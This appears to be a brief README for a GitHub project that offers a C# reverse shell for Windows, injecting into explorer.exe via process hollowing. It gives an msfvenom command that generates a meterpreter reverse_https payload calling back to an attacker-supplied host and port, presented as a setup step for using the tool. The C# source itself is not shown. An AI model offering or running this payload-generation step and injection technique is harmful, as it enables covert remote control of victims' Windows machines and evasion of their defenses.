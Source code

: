 # ReverseShell and ProcessHollowing for Windows
Here is a simple reverse shell via process injection in explorer.exe written in C#, based on the .NET Framework.

You will need to generate a shellcode based on the target architecture : msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<LP> -f exe -o reverse_shell.exe
